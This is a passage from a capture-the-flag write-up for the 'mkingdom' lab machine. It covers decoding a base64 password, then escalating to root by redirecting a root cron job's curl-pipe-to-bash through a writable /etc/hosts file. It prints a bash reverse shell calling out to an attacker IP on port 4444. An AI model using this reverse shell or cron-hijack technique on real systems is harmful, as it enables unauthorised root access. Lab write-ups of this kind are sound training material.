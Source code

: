 `PWD_token=aWthVGVOVEFOdEVTCg==` this looked like base64 encrypted.

```bash
toad@mkingdom:~$ echo "aWthVGVOVEFOdEVTCg==" | base64 -d
<Hidden-Password>
```

Trying the output as password we get access to `mario` account.

```bash
toad@mkingdom:~$ su mario
Password: 
mario@mkingdom:/home/toad$ 
```

Trying to read the user flag, but user flag is also owned by the root user. Must be a mistake ??

```bash
mario@mkingdom:~$ cat user.txt
cat: user.txt: Permission denied
mario@mkingdom:~$ ls -la user.txt
-rw-r--r-- 1 root root 38 Nov 27  2023 user.txt
mario@mkingdom:~$ 
```

Again I tried doing manual enumeration, but nothing to be found. 

## Privesc to root

Trying this tool gave a result [pspy](https://github.com/DominicBreuker/pspy) 

![cron_1](./assets/cron_1.png)

So there is this `/bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log` cron job running by the root (UID=0). We can exploit this by creating the same path and the script `(/app/castle/application/counter.sh)` in our own machine,start a web server at port 85 and set the domain `mkingdom.thm` to point to us by changing the `/etc/hosts` file since we have write permission on it.

```bash
mario@mkingdom:~$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```
Put your own ip in front of the domain `mkingdom.thm`

![hosts](./assets/hosts.png)

Now we need to create `/app/castle/application/` path in our machine.

Inside the `counter.sh` file we can put a bash reverse shell as follows:

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.83.38/4444 0>&1  
```
Start a python web-server inside the folder that contains the `app` directory.
